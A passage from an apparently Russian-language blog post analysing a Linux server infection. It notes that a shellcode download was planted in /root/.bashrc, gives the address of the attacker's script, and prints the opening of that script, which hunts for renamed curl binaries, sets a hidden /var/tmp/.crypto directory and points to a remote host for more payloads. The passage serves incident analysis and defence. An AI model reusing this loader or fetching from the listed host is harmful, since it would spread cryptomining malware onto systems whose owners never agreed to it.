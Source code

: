 <img src="/uploads/2022-02-15-looking-for-virus-in-linux-system/find_ip.png" />

Теперь понимаешь, почему при чруте была такая странная и долгая пауза? Потому что в **/root/.bashrc** тоже была записана загрузка шеллкода.<br> 
Настоятельно рекомендую перед чрутом всегда проверять как минимум **root/.bashrc**, **root/.profile** на наличие стремных записей.

Перейдем наконец к шеллкоду — по этому адресу **http://104.192.82.138/s3f1015/a/a.sh** (лучше не качай, а посмотри код ниже) находится скрипт **a.sh** следующего содержания:

```bash
#!/bin/bash
echo "ok22$(date)" >>/tmp/ok.log
export CURL_CMD="curl"
if [ -f /bin/cd1 ];then
    export CURL_CMD="/bin/cd1" 
elif [ -f /bin/cur ];then
    export CURL_CMD="/bin/cur" 
elif [ -f /bin/TNTcurl ];then
    export CURL_CMD="/bin/TNTcurl" 
elif [ -f /bin/curltnt ];then 
    export CURL_CMD="/bin/curltnt" 
elif [ -f /bin/curl1 ];then
    export CURL_CMD="/bin/curl1" 
elif [ -f /bin/cdt ];then
    export CURL_CMD="/bin/cdt" 
elif [ -f /bin/xcurl ];then
    export CURL_CMD="/bin/xcurl"  
elif [ -x "/bin/cdz" ];then
    export CURL_CMD="/bin/cdz"
fi 
sh_url="http://104.192.82.138/s3f1015"  
export MOHOME=/var/tmp/.crypto/...
if [ -f ${MOHOME}/.ddns.log ];then
    echo "process possible running"
```